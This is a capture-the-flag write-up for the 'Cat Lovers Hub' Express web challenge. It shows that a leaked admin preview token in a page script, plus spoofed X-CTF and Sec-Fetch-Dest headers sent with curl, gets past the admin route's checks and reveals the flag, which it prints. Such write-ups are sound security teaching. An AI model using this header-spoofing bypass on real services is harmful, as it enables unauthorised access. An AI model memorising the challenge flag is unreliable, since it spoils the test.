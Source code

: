 # Cat Lovers Hub — Iran Tech Olympics CTF 2025

> **Room / Challenge:** Cat Lovers Hub (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Iran Tech Olympics CTF 2025
- **Challenge:** Cat Lovers Hub (web)
- **Target / URL:** `http://65.109.176.78:3000/`
- **Difficulty:** `Easy / Medium`
- **Points:** `48`
- **Date:** `29-09-2025`

---

## Goal

We have to get the flag by getting access to admin preview page.

## My Solution

Here is the [Source Code](./cat-lovers-hub.zip)

This is a website written under Express, and the solution may appear really easy after examining the code.

In `app.js`, there is `/submit POST` route, you can see that in the log there is a message `Admin preview token for sid ${req.sid}: ${token}`, indicating that we can have the admin preview token to get access to the admin preview page.

```javascript
app.post("/submit", (req, res) => {
  const bio = (req.body.bio || "").slice(0, 2048);
  STORE[req.sid].bio = bio;

  const adminHtml = renderTemplate("admin_preview.html", {
    bioRaw: bio,
    flag: STORE[req.sid].flag,
  });

  const token = crypto.randomBytes(16).toString("hex");

  PREVIEWS.set(token, { html: adminHtml, sid: req.sid, used: false });

  console.log(`Admin preview token for sid ${req.sid}: ${token}`);

  res.redirect(`/player_preview?sid=${req.sid}`);
});
```

This route `/admin/preview_blob` is where the server return the flag and also we have to have token to get access to it.

```javascript
app.get("/admin/preview_blob", (req, res) => {
  const token = req.query.token;

  if (!token) return res.status(403).send("Forbidden");

  if (req.get("X-CTF") !== "player") {
    return res.status(403).send("Forbidden");
  }

  if (req.get("Sec-Fetch-Dest") !== "iframe") {
    return res.status(403).send("iframe");
  }

  const meta = PREVIEWS.get(token);
  if (!meta) return res.status(403).send("Invalid or expired token");
  if (meta.used) return res.status(403).send("Token already used");

  meta.used = true;
  PREVIEWS.delete(token);

  res.setHeader(
    "Content-Security-Policy",
    "default-src 'none'; script-src 'none'; object-src 'none'; image-src 'none'; sandbox allow-scripts allow-same-origin"
  );

  res.type("html").send(meta.html);
});
```

In `/templates/player_preview.html`, besides HTML code in the `<script>` tag:

```javascript
<script>const token = "{{ token }}";</script>
```

There is a defined `token` which we can test by using it to get access to `/admin/preview_blob`.

We can exploit this app by just using interface.

Firstly, submit a cat bio in `/submit`:

![Guide image](./screenshots/cat-lovers-hub-1.png)

In the `/player_preview?sid=<SID>`, open Dev Tools we can easily see the `token` I have mentioned before.

![Guide image](./screenshots/cat-lovers-hub-2.png)

Copy that token and use the curl command to attach request header `X-CTF` to `player` because in `/admin/preview_blob` route there is a condition:

```javascript
if (req.get("X-CTF") !== "player") {
  return res.status(403).send("Forbidden");
}
```

Also the response of that route is:

```javascript
res.type("html").send(meta.html);
```

We also attach another header to see the response:

```bash
curl -s -G \
  -H "X-CTF: player" \
  -H "Sec-Fetch-Dest: iframe" \
  "http://65.109.176.78:3000/admin/preview_blob?token=${YOUR_TOKEN}"
```

Finally, you can get the flag.

I also create a simple ready to use `.sh` code to pass this challenge efforlessly. You can view it [here](./cat-lovers-hub-solve.sh).

![Guide image](./screenshots/cat-lovers-hub-3.png)

Flag: `ASIS{CSP_HERO_ARE'NT_YOU_2a7590cb-9559-48c8-bdb9-ca41c0d184ed}`
